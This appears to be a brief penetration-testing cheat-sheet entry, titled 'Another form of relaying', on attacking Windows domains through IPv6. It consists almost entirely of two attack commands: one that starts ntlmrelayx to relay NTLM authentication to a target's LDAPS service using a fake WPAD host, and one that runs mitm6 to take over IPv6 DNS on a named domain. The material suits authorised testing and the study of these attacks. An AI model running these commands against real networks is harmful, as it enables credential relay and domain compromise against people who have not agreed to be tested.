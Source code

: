 Another form of relaying

- Set up ntlmrelayx with ipv6
	```ntlmrelayx
	ntlmrelayx.py -6 -t ldaps://<Target-IP> -wh fakewpad.<domain> -l <output>
	```

- Run mitm6
	```mitm6
	sudo mitm6 -d <DOMAIN>
	```
	